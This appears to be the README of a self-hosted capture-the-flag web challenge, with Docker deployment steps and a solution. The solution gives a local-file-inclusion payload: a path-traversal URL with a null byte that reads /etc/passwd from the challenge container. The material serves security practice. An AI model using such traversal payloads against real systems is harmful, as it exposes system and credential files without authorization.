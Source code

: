Description: ha! you got me last time, now i dare you to try to hack me again hacker ;)

Try to get the etc/passwd file!

Try to get the flag! (it will in 'flag{YOUR FLAG GOES HERE}')


### Deployment

```sh
git clone https://github.com/aswinmguptha/mwade-challenges/
cd mwade-challenges/local-files/
sudo docker build . -t local-files
sudo docker run -dp 80:80 local-files
```
Visit [http://localhost](http://localhost)

If you have alrady something running in port 80, 

you can change the command 

docker run -dp 80:80 ez-local-files

you can try another port like 5000 or 5050 (or anyone!)

to 

docker run -dp 5000:80 ez-local-files
or
docker run -dp 5050:80 ez-local-files
or
docker run -dp (your port here!):80 ez-local-files

and will be 

http://localhost:5000
or
http://localhost:5050
or
http://localhost:(your port here)













### Solution
Read /etc/passwd by going to
http://localhost/index.php?page=../../../etc/passwd%00
